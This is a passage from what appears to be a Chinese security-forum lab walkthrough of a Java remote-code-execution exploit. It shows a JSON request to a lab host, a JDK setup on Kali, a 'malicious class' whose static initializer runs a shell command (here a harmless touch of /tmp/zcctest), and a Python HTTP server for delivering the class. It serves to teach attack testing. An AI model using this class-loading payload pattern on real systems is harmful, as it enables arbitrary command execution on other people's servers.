 ```php
curl http://192.168.9.234:8090/ -H "Content-Type: application/json" --data '{"name":"zcc", "age":18}'
```

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-8ace655105b35d294815c8f56f21cd3c34ec85b8.png)

##### kali安装Javac环境，这里我已经安装好了

```php
cd /opt
curl http://www.joaomatosf.com/rnp/java_files/jdk-8u20-linux-x64.tar.gz -o jdk-8u20-linux-x64.tar.gz
tar zxvf jdk-8u20-linux-x64.tar.gz
rm -rf /usr/bin/java*
ln -s /opt/jdk1.8.0_20/bin/j* /usr/bin
javac -version
java -version
```

![image-20210804172742770](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-5611b941bcac65d2689a4b4021294116d60b527a.png)

##### 编译恶意类代码

```php
import java.lang.Runtime;
import java.lang.Process;
public class zcc{
 static {
 try {
 Runtime rt = Runtime.getRuntime();
 String[] commands = {"touch", "/tmp/zcctest"};
 Process pc = rt.exec(commands);
 pc.waitFor();
 } catch (Exception e) {
 // do nothing
 }
 }
}
```

![image-20210805103801452](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-91f24c56e1d137807a49a917c08e488d6f55fc88.png)

![image-20210805103821601](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-2790f90ea6184810ae8502d88b070efe2ed11cf2.png)

```php
javac zcc.java
```

![image-20210805103953999](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-4678005dbe2f7d2a36a7828f709bf3956d2124fe.png)

##### 搭建http服务传输恶意文件

```php
python -m SimpleHTTPServer 80
```
